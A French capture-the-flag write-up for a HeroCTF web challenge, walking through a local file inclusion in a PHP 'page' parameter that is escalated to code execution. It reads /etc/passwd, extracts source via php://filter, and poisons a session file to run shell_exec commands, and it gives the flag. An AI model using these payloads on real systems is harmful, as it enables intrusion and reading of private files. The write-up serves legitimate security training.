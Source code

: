# Sessions Workout

### Catégorie

Web

### Description

Des personnes malveillantes menacent d'exposer la vie de célébrités au grand public.. il faut absolument empêcher ça !!<br>
Vous avez pour but de récupérer un fichier contenu dans le home de l'utilisateur.

http://challs.heroctf.fr:3005/

Format : Hero{flag}

### Auteur

Worty

### Hint

Github ne permet pas d'afficher du code PHP tel quel. Quand il y a une payload il faut évidemment mettre les balises PHP pour que celle-ci fonctionne.<br/>
Ces balises ne seront donc pas présentes dans ce writeup mais doivent être présentes quand vous faites le challenge.

### Solution

Quand on arrive sur la page index.php, rien n'est apparant. Quand on commence à se balader sur le site, on remarque que les fichiers php sont accédés via un paramètre "page".

Ce paramètre est donc contrôlé par l'utilisateur, et donc potentiellement faillé. On essaye de passer un payload de type LFI "../../../../../etc/passwd". BOOM on récupère le fichier demandé, il y a donc une faille de type LFI.

Pour savoir ce qu'on peut en faire, on peut aller voir : https://github.com/swisskyrepo/PayloadsAllTheThings.

On sait que l'on doit aller lire un fichier dans le home de l'utilisateur, hors, on ne connait pas du tout le nom de son home. Nous allons donc devoir passer par un faille de type RCE (Remote Code Execution).

Avec la LFI, on récupère le contenu du fichier index.php : http://challs.heroctf.fr:3005/index.php?page=php://filter/convert.base64-encode/resource=index.php

Dans ce fichier, on remarque plusieurs choses :<br/>
    - session_save_path('./OhD4Sessions'); : les sessions sont stockés dans un dossier qui est accessible par l'utilisateur.<br/>
    - $_SESSION['page'] = $_REQUEST['page']; : ce qui est passé dans le paramètre page est stocké dans la session.<br/>

Nous allons donc utiliser cette option pour passer notre code PHP et arriver à notre but !

Payload : http://challs.heroctf.fr:3005/index.php?page=phpinfo();, ici, le serveur nous répond que le fichier n'existe pas, forcément, puisque c'est du code PHP.<br/>
On va donc maintenant accéder à notre session AVEC le paramètre page car on veut que notre code PHP soit exécuté.<br/>
Payload :  http://challs.heroctf.fr:3005/index.php?page=./OhD4Sessions/sess_ID<br/>
BOOM ! Notre code php est exécuté, nous avons donc notre RCE.

Nous allons donc maintenant devoir lister le contenu du dossier /home, pour connaître le nom de l'utilisateur :<br/>
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home"));<br/>
On réaccède à notre session grâce à la LFI, et on remarque dans le dossier home l'utilisateur haxorhome.

Nous allons donc maintenant récupérer le nom du fichier à récupérer :<br/>
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home/haxorhome"));<br/>
On réaccède à notre session grâce à la LFI, on remarque que le fichier se nomme flag.txt.

Payload final : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("cat /home/haxorhome/flag.txt")); , et on réaccède à notre session grâce à la LFI, flag !

### Flag

Hero{p4y_4tt3nt10n_t0_s3ss1on_n3xt_t1m3_!!}